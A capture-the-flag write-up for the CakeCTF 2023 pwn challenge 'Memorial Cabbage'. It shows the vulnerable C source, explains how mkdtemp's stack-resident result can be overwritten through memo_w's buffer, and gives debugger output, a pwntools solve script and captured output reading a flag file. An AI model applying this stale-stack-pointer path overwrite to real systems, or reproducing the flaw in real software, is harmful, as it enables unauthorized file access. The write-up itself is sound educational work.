 # Memorial Cabbage

> Author: ptr-yudai<br>
> Description: Memorial Cabbage Unit 3<br>
> Attachment: [memorial-cabbage.tar.gz](https://raw.githubusercontent.com/d0UBleW/ctf/main/cake-ctf/pwn/memorial-cabbage/memorial-cabbage.tar.gz)<br>

<div class="hidden">
    keywords: CakeCTF 2023, pwn
</div>

## TL;DR

`mkdtemp` return value lives in the stack instead of heap which allow us to overwrite it.

## Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
```

## Initial Analysis

At a glance, the program seems to not have any vulnerability. The `setup()`
function creates a temporary directory under `/tmp` and save the directory name
to `tempdir`. Both memo write and read have proper size constraints to prevent
buffer overflow and would operate on a file named `memo.txt` under `tempdir`.

Next, my plan is to just fill up `buf` with `0xfff` bytes of cyclic pattern and
observe any interesting outcome.

```console
gef> x/s (char*)tempdir
0x7ffd9aab6920: "/tmp/cabbage.FSWsBP"
gef> ni
gef> x/s (char*)tempdir
0x7ffd9aab6920: "bovabowaboxabo"
```

Turns out that our input overwrites part of `tempdir`. This happens because
`mkdtemp` returns `char *` that is pointing to the stack and when the `setup()`
returns, the string `/tmp/cabbage.FSWsBP` is located in the stack area which
would be used to allocate local variables when another function is called.
In this case, when `memo_w` is called, the memory which would be allocated for
`buf` overlaps with `tempdir`, which allows us to overwrite the path value.

```console
gef> x/5i memo_w+59
   0x55565ba76502 <memo_w+59>:  mov    rdx,QWORD PTR [rip+0x2b17]        # 0x55565ba79020 <stdin@GLIBC_2.2.5>
   0x55565ba76509 <memo_w+66>:  lea    rax,[rbp-0x1010]
   0x55565ba76510 <memo_w+73>:  mov    esi,0xfff
   0x55565ba76515 <memo_w+78>:  mov    rdi,rax
   0x55565ba76518 <memo_w+81>:  call   0x55565ba76180 <fgets@plt>
gef> x/gx $rbp-0x1010
0x7ffd9aab5930: 0x6161616261616161
gef> p/x 0x7ffd9aab5930+0x1000
$6 = 0x7ffd9aab6930
```

## Solution

Now that we are able to overwrite the value of `tempdir` and the memo path
is constructed everytime `memo_r` is called, we could overwrite `tempdir` to be
`/flag.txt\x00`. Since the length of `/flag.txt\x00` is shorter than `TEMPDIR_TEMPLATE`,
when `strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt")` is called, our NULL
termination stays and `fopen()` would open `/flag.txt`, instead of `/flag.txtgarbage/memo.txt`

```admonish important
When testing locally, make sure that the running user has no write permission
to `/flag.txt` since `memo_w` would not return early and instead overwrite
the content of `/flag.txt`.
```

Final solve script:

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./cabbage", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc memorialcabbage.2023.cakectf.com 9001"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

io.sendline(b"1")
io.sendline(cyclic(0xff0) + b"/flag.txt\x00")
io.sendline(b"2")

io.interactive()
```

```console
$ ./solve.py REMOTE HOST=localhost PORT=9001
[+] Opening connection to localhost on port 9001: Done
[*] Switching to interactive mode
1. Write memo
2. Read memo
> Memo: 1. Write memo
2. Read memo
> Memo: FakeCTF{*** REDACTED ***}
1. Write memo
2. Read memo
> $
```
